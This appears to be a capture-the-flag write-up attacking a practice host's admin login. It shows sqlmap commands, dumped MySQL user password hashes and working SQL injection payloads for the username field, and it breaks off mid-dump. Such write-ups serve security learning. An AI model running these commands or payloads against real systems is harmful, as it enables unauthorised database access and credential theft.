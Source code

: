 Found http://cod.hack/administrator.php. Basic login page, cannot enumerate usernames, trying simple credentials and SQL injection.

Intercepted request with BurpSuite
```
sqlmap --batch --users --passwords --privileges --roles -r login.request
```

Output log in /home/monty/.sqlmap/output/cod.hack
```
back-end DBMS: MySQL >= 5.0
database management system users [4]:
[*] 'debian-sys-maint'@'localhost'
[*] 'mysql.session'@'localhost'
[*] 'mysql.sys'@'localhost'
[*] 'root'@'localhost'

database management system users password hashes:
[*] debian-sys-maint [1]:
    password hash: *81F5E21E35407D884A6CD4A731AEBFB6AF209E1B
    clear-text password: root
[*] mysql.session [1]:
    password hash: *THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE
[*] mysql.sys [1]:
    password hash: *THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE
[*] root [1]:
    password hash: *82D1BDA2F1E16E0DAEE2412F1C6E8DE7DF8B84FD

```

Last hash not recovered with rockyou.txt.


## Cracking the Perimeter

Re-ran the following:
```
sqlmap -u http://cod.hack/administrator.php --forms --dump
...
Parameter: username (POST)                                
    Type: boolean-based blind           
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause                              
    Payload: username=monty' RLIKE (SELECT (CASE WHEN (9148=9148) THEN 0x6d6f6e7479 ELSE 0x28 END))-- MorP&password=m
ontysecurity                                              
                                                          
    Type: error-based                                                                                                
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)                          
    Payload: username=monty' OR (SELECT 6794 FROM(SELECT COUNT(*),CONCAT(0x717a707671,(SELECT (ELT(6794=6794,1))),0x7
171626271,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- lzyf&password=montysecurity             
                                                          
    Type: time-based blind   
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)                                                        
    Payload: username=monty' AND (SELECT 3762 FROM (SELECT(SLEEP(5)))NoPQ)-- IYze&password=montysecurity             
...
Database: users
Table: users
[1 entry]
+----------+------------+
```